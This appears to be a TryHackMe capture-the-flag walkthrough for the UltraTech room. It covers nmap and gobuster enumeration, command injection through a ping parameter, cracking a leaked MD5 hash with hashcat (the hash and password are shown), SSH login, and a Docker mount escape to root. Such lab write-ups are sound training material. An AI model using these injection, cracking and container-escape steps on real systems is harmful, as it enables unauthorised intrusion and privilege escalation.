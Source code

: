```yaml
---
layout: post
title: UltraTech
published: true
category: CTF
system: web
walkthrough-type: thm
source: https://tryhackme.com/room/ultratech1
Description: The basics of Penetration Testing, Enumeration, Privilege Escalation and WebApp testing
tags: security, pentest, enumeration, web
---
```


# Notes

Given some inspiration, and if we get stuck keep enumerating because I for sure will miss something.

> You have been contracted by UltraTech to pentest their infrastructure.
> It is a grey-box kind of assessment, the only information you have
> is the company's name and their server's IP address.

* * * 

- `sudo nmap -p- ultratech.thm -vvv -T 4`
- `sudo nmap -sC -sV -sT -O -p21,22,31331,8081 ultratech.thm`

```
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc668985e705c2a5da7f01203a13fc27 (RSA)
|   256 c367dd26fa0c5692f35ba0b38d6d20ab (ECDSA)
|_  256 119b5ad6ff2fe449d2b517360e2f1d2f (ED25519)
8081/tcp  open  http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), Linux 5.4 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Linux 3.10 (92%), Linux 3.12 (92%), Linux 3.19 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.44 seconds
```

perform some gobuster scans on the open servers

during the gobuster scan 8081 we find 2 routes auth and ping the 31331 doesnt yeild much results.

```
/auth                 (Status: 200) [Size: 39]
/ping                 (Status: 500) [Size: 1094]
/Ping                 (Status: 500) [Size: 1094]
/Auth                 (Status: 200) [Size: 39]
```

found a login page at `/partners.html` on 31331 that was refrenced in the sitemap.txt but not linked to in the website.

this form sends a GET request to /ping?ip=ultratech.thm

which sends a GET request to /auth?login=admin&password=pass on :8081

then sends another request back to /ping

capturing the request in burpsuite and sending to the repearing the ping is actually executing ping on the machine, maybe we can do something with this.

trying many requests finally using tilda apostrophe thing manage to get the response of the sqlite db utech.db.sqlite

using cat we can get r00t hash f357a0c52799563c7c7b76c1e7543a32 and crack.

- `hashcat -m 0 f357a0c52799563c7c7b76c1e7543a32 /usr/share/seclists/Passwords/rockyou.txt`

r00t:n100906

we can login via ssh

checking id shows us we are in a docker container, maybe we can escape. 

we can list available docker images with `docker ps -a`, then escape with `docker run -v /:/mnt --rm -it bash chroot /mnt sh`

as root we can access our final flag which is the first 9 chars of the root's private ssh key which is located in `/root/.ssh/`
